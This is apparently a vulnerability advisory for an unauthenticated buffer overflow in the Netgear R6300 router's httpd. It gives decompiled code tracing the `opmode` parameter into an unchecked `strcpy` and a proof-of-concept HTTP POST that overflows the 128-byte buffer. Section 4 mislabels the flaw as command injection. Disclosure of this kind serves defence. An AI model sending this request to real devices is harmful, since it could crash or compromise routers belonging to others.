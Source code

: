 # Buffer Overflow Vulnerability in `wla_temp_mode`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6300 Router                                         |
| Firmware Version     | V1.0.2.80_1.0.59                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`wirelessCgiMain` → `acosNvramConfig_set` → `wlgOpModeGet`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `opmode` |

2. Exploitation Path

```c
int __fastcall wirelessCgiMain(int a1, int a2)
{
  ...
  char v96[256]; // [sp+540h] [-400h] BYREF
	...
  websGetVar(a1, "opmode", v96);
  acosNvramConfig_set("wla_temp_mode", v96);
  ...
}

int __fastcall wlgOpModeGet(int a1, const char *a2, char *a3)
{
  ...
  char v26[128]; // [sp+18h] [-80h] BYREF

  v4 = atoi(a2);
  if ( !v4 )
  {
    v5 = (const char *)acosNvramConfig_get("wla_temp_setting");
    if ( !strcmp(v5, "1") )
      v6 = "wla_temp_mode";
    else
      v6 = "wla_mode";
    v7 = (const char *)acosNvramConfig_get(v6);
    strcpy(v26, v7);
    ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: In the `wirelessCgiMain` function at line 6, the call `websGetVar(a1, "opmode", v96)` retrieves input. While a 255-byte length restriction is applied, no further validation or sanitization is enforced. The input is subsequently stored via `acosNvramConfig_set("wla_temp_mode", v96)` at line 7. Later, in the `wlgOpModeGet` function, the stored value is retrieved at line 24 using `v7 = (const char *)acosNvramConfig_get(v6)`, and directly copied into the destination buffer `v26` via `strcpy(v26, v7)` at line 25. Since the destination buffer `v26` is only 128 bytes in size, this leads to a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/wirelessCgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

opmode=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
